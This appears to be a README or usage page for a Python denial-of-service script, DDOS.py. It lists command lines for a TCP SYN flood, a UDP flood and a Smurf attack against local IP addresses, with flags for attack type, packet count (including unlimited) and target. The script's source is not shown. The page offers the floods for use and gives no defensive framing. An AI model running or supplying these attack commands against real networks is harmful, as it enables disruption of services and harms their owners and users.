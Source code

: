 # Syntax to Execute the DDOS Script

Example 1 : Execute  a TCP SYN attack
      
      python DDOS.py -toa tcp -fl syn -c X -d 192.168.1.9
      
      -toa : Type of attack you want to perform (TCP,UDP,etc.)
      -fl  : What kind of attack to perform in the above mentioned type (Syn flood, Reset flood , Ack flood, etc.)
      -c   : How many number of packets you want to push on the network while executing this script('X' denotes infinte number of packets)
      -d   : Destination network IP address
      
Example 2 : Execute UDP flood attack. Push 10 packets to destination.

      python DDOS.py -toa udpflood -c 10 -d 192.168.1.9
   
Example 3 : Execute a Smurf attack

      python DDOS.py -toa ping -fl pod -c X -d 192.168.1.15

In my case 192.168.1.15 is the broadcast address.


To display help command:
      
      python DDOS.py --help
